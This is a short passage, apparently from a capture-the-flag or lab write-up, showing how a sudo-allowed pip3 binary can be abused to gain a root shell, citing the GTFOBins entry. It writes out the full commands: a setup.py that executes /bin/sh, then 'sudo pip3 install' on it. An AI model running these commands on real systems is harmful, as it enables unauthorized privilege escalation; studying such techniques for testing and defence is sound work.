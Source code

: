The binary `pip` has an entry in [GTFOBins](https://gtfobins.github.io/gtfobins/pip/#sudo) to elevate privileges to root:
```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
```

Specifying **pip3** instead of `pip`:
```
sudo pip3 install $TF
```

It will execute _/bin/sh_ with `pip3` and start a shell as root!
